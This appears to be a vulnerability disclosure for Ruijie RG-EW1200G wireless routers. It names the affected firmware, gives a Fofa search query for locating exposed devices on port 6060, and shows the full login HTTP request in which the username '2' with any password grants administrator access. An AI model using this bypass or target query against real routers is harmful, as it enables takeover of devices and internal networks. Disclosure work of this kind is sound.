



# Information

Vendor of the products:Ruijie Networks

Vendor's website:https://www.ruijienetworks.com

Affected products:RG-EW1200G Wireless Routers

Affected firmware version: HWR_1.0(1)B1P5,Release(07161417) r483

Fofa query rule: "锐捷" && port="6060"

# Overview

Ruijie networks RG-EW1200G HWR_1.0(1)B1P5,Release(07161417) r483 has a login bypass logic vulnerability, allowing any user to gain device administrator privileges without a password. Log in to the router, obtain sensitive information, and control the internal network.

# Vulnerability details



Unauthorized users can use Account 2 to log into the device with any password.

Use Burp Suite to intercept login packets and modify the username to "2". Any password can be used.


```
POST /api/sys/login HTTP/1.1
Host: xx.xx.xx.xx:6060
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en;q=0.3,en-US;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://xx.xx.xx.xx:6060
DNT: 1
Connection: close
Referer: http://xx.xx.xx.xx:6060/

{"username":"2","password":"abcdefgeeee","timestamp":1691420513000}
```



Successfully gained administrator privileges.
